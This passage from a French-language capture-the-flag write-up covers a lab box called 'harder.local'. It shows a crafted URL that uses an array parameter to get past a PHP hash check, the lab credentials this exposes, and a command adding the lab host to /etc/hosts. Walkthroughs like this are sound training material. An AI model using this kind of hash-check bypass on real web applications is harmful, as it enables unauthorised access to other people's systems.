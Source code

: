 On génère le bon lien
```text
http://pwd.harder.local/index.php?n[]=1&host=ma.bool&h=3213f635e37c57128ab80efc70c8de74c5ce0725b44ba64a421b23c32b47a41e
```

![page5](./Task1-05.png)

On met le lien on trouve un nouveau nom de domaine et des identifiants.    

Domaine : http://shell.harder.local    
Username : evs      
Mode de passe : 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm      

```bash
tim@kali:~/Bureau/tryhackme/write-up/git$ sudo sh -c "echo '10.10.226.220 shell.harder.local' >> /etc/hosts"
[sudo] Mot de passe de tim : 
```

On le nouveau nom de domaine.    

![page6](./Task1-06.png)

On s'identifie avec les identifiants précédent.    

![page7](./Task1-07.png)
